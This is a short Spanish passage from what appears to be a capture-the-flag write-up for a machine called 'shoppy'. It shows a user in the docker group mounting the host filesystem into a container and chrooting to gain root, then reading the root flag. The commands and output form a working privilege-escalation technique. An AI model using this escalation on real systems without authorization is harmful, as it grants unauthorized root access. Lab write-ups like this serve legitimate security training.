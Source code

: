 Pertenece al grupo ```docker```

```null
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

Creo un contenedor que monte la raíz de la máquina host en el disco y puedo ver la segunda flag

```nulldeploy@shoppy:/home/jaeger$ docker run -it -v /:/host/ d7d3d98c851f chroot /host/ bash
root@2c1960d6a599:/# ls
bin  boot  dev	etc  home  initrd.img  initrd.img.old  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run	sbin  srv  sys	tmp  usr  var  vmlinuz	vmlinuz.old
root@2c1960d6a599:/# cd root/
root@2c1960d6a599:~# cat root.txt 
50e81ed530ecf3b8a70ae2d2fd04c00d
```